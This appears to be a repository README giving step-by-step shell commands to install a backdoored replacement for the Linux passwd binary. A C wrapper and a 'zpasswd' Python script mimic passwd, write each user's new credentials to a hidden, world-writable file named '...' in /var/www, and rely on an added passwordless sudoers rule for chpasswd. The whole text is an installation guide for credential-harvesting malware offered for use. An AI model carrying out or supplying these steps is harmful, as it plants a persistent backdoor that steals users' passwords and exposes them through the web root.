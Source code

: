 ## Backdoored passwd binary

First you must create a `...` file in `/var/www`.

`touch /var/www/...`

Next make `root` own the file and give it `777` permissions. 

`chown root:root /var/www/...
chmod 777 /var/www/...`

Backing up the origin passwd binary is recommended.

`mv /usr/bin/passwd /usr/bin/passwd.orig`

You will now need to move the compiled c binary to replace the original.

`mv passwd /usr/bin`

Give `root` ownership and give the file `755` permissions.

`chown root:root /usr/bin/passwd
chmod 755 /usr/bin/passwd`

Next move the `zpasswd` python script into `/usr/bin`

`mv zpasswd /usr/bin`

You will also need to give `root` ownership and `755` permissions.

`chown root:root /usr/bin/zpasswd
chmod 755 /usr/bin/zpasswd`

The last part that you have to do because I have not found a way to get around it, is that you must add a Cmnd_Alias in the `/etc/sudoers` file so that when the new username/password is passed to chpasswd, they will not have to enter their password to do sudo and run chpasswd.

This can be done by typing `visudo` and going down to the Cmnd_Alias section, and adding the line:

`Cmnd_Alias CHPASSWD=/usr/bin/chpasswd`

then adding the user as a sudoer to run that command without a password under User aliases

`<username> ALL=NOPASSWD: CHPASSWD`

and saving it.

Now when users run the `passwd` command, they will run the C compiled binary, which will pass over to the `zpasswd` python script, which will emulate the real passwd binary, but will add the new credentials to `/var/www/...` and then finally change the password of the user.
